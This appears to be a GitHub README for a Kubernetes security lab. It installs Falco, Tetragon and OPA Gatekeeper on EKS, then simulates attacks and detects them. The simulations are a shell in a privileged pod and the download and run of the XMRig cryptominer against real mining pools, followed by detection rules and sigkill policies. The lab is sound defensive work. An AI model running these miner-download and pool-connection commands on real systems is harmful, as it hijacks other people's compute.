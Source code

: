# oss-cnapp
Documenting the requirements for an open-source CNAPP platform


## Create a one-node cluster in EKS

```
eksctl create cluster nigel-eks-cluster --node-type t3.xlarge --nodes=1 --nodes-min=0 --nodes-max=3 --max-pods-per-node 58
```
![Screenshot 2023-07-11 at 13 16 55](https://github.com/nigeldouglas-itcarlow/falco-tetragon-cncf/assets/126002808/8a4876ac-6d1d-4131-918e-19f64f5dc7e1)

## Install Falco
```
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm repo update
helm install falco falcosecurity/falco --namespace falco --set tty=true --create-namespace
kubectl get pods -n falco -o wide -w
```

![Screenshot 2023-07-11 at 13 21 57](https://github.com/nigeldouglas-itcarlow/falco-tetragon-cncf/assets/126002808/33ea3e03-f041-4c48-9055-17f5256612c2)

You can use the ```kubectl get pods``` command along with some additional filters and the ```--output=jsonpath``` option to retrieve the pod name dynamically and then pass it to the ```kubectl logs``` command.
```
POD_NAME=$(kubectl get pods -n falco --field-selector=status.phase=Running -o=jsonpath='{.items[0].metadata.name}')
kubectl logs $POD_NAME -n falco
```

This command fetches the name of the first running pod in the ```falco``` namespace and assigns it to the ```POD_NAME``` variable. <br/>
Then, it uses the retrieved pod name to fetch the logs of that pod using ```kubectl logs```.

![Screenshot 2023-07-11 at 13 25 30](https://github.com/nigeldouglas-itcarlow/falco-tetragon-cncf/assets/126002808/b64d4c0c-dfbf-4664-8096-121965724dd1)

alternatively, you can run:
```
kubectl logs -n falco -l app.kubernetes.io/instance=falco
```

![Screenshot 2023-07-11 at 13 49 16](https://github.com/nigeldouglas-itcarlow/falco-tetragon-cncf/assets/126002808/72aa9201-8f94-4ecb-a801-5030c36148a4)


## Install Tetragon
```
helm repo add cilium https://helm.cilium.io
helm repo update
helm install tetragon cilium/tetragon -n kube-system
kubectl rollout status -n kube-system ds/tetragon -w
```

![Screenshot 2023-07-11 at 13 31 01](https://github.com/nigeldouglas-itcarlow/falco-tetragon-cncf/assets/126002808/72c61a0c-a3d6-45d5-9ace-1b19929666bc)

## Installing OPA Gatekeeper

```
helm repo add gatekeeper https://open-policy-agent.github.io/gatekeeper/charts
helm repo update
kubectl create ns gatekeeper-system
helm install -n gatekeeper-system gatekeeper/gatekeeper
```

## Terminal Shell in Container

Create a workload with ```privileged=true``` on ```Terminal 1```:
```
kubectl apply -f https://raw.githubusercontent.com/nigeldouglas-itcarlow/Tetragon-Lab/main/privileged-pod.yaml
```

Open an activity tail for Tetragon (```Terminal 2```):
```
kubectl logs -n kube-system -l app.kubernetes.io/name=tetragon -c export-stdout -f | tetra getevents -o compact --namespace default --pod test-pod-1
```

Open an event output for Falco (```Terminal 3```):
```
kubectl logs --follow -n falco -l app.kubernetes.io/instance=falco | grep k8s.pod=nigel-app
```

Shell into the workload on ```Terminal 1```:
```
kubectl exec -it nigel-app -- bash
```

```Tetragon``` in this case is providing a ```Live Tail``` of all process-related activity in real-time. <br/>
```Falco``` is providing triggering ```Realtime Alerts``` based on the same system call activity observed by Tetragon:

![Screenshot 2023-07-12 at 14 45 23](https://github.com/nigeldouglas-itcarlow/falco-tetragon-cncf/assets/126002808/941357c0-704c-4e25-b5b1-c09544fc8116)


## Detect Suspicious Network Activity

Download a Cryptomining Binary package 'XMRIG' on the newly-created workload:
```
curl -OL https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz
```

Unzip the package you just downloaded:
```
tar -xvf xmrig-6.16.4-linux-static-x64.tar.gz
```

Move to the folder that holds the binary
```
cd xmrig-6.16.4
```

Run the binary. <br/>
We want to monitor and prevent traffic to ```14433```
```
./xmrig --donate-level 8 -o xmr-us-east1.nanopool.org:14433 -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero
```

### Monitor the Network traffic using Tetragon

Create a ```TracingPolicy``` in Tetragon
```
kubectl apply -f https://raw.githubusercontent.com/cilium/tetragon/main/examples/tracingpolicy/tcp-connect.yaml
```

Check the output:
```
kubectl logs -n kube-system -l app.kubernetes.io/name=tetragon -c export-stdout -f | tetra getevents -o compact --namespace default --pod test-pod-1
```

### Monitor the suspicious network activity using Falco

Try generating traffic that uses the ```stratum``` protocol 
```
./xmrig -o stratum+tcp://xmr.pool.minergate.com:45700 -u lies@lies.lies -p x -t 2
```

![Screenshot 2023-07-12 at 15 12 08](https://github.com/nigeldouglas-itcarlow/falco-tetragon-cncf/assets/126002808/54019c2f-2bbc-426f-9ff6-35c53110a15b)


## Kill Malicious Binaries upon Detection

I built some bespoke Falco rules for the purposes of in-depth cryptomining detection
```
wget https://raw.githubusercontent.com/nigeldouglas-itcarlow/falco-tetragon-cncf/main/config/custom-rules.yaml
```
Once you've downloaded the custom-rules file, just open it to confirm its formatted correctly
```
cat custom-rules.yaml
```


![Screenshot 2023-07-12 at 21 47 50](https://github.com/nigeldouglas-itcarlow/falco-tetragon-cncf/assets/126002808/26533ba8-374e-4d84-9f90-517caf9fd38a)


You can apply the newly-configured rules on-the-fly via Helm:
```
helm upgrade falco -n falco -f custom-rules.yaml falcosecurity/falco
```
Confirm the changes have been applied to the ```ConfigMap``` of Falco
```
kubectl edit cm falco-rules -n falco 
```
And we will see in our logs something like:
```
Mon Jan 30 10:56:26 2023: Loading rules from file /etc/falco/rules.d/rules-mining.yaml:
```

Here's the output of the connection from privileged pod to the mining pool:

![Screenshot 2023-07-12 at 21 30 56](https://github.com/nigeldouglas-itcarlow/falco-tetragon-cncf/assets/126002808/f41af4cb-7d1c-4c3d-a523-b90471b6dd68)

Now we apply a Tetragon ```TracingPolicy``` that will perform ```sigkill``` action when the script is run:
```
kubectl apply -f https://raw.githubusercontent.com/nigeldouglas-itcarlow/Tetragon-Lab/main/TracingPolicies/multi-binary-sigkill.yaml
```

![Screenshot 2023-07-12 at 21 44 22](https://github.com/nigeldouglas-itcarlow/falco-tetragon-cncf/assets/126002808/9d05e1ea-ad3a-49ee-ac08-401dc34ba62a)

## Detect Sigkill Actions using Falco
```
wget https://raw.githubusercontent.com/nigeldouglas-itcarlow/falco-tetragon-cncf/main/falco-rules/sigkill.yaml
```
```
helm upgrade falco -n falco -f sigkill.yaml falcosecurity/falco --set tty=true
```
Get the latest test output
```
kubectl logs --since=1m -f <pod-name> -n falco
```

